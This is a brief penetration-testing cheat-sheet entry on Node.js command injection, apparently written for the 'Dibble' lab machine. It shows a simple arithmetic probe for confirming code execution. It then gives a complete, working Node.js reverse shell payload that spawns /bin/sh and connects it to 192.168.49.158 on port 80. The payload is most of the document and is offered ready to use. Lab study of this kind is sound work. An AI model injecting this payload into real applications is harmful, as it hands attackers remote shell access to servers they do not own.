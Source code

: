 # NodeJS
--------

Check the box Dibble - PGP

Checking for command execution on a Node JS application
```bash
50 + 2 #the output should return 52
```

Reverse shell using Node JS function:
https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell
```txt
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(80, "192.168.49.158", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

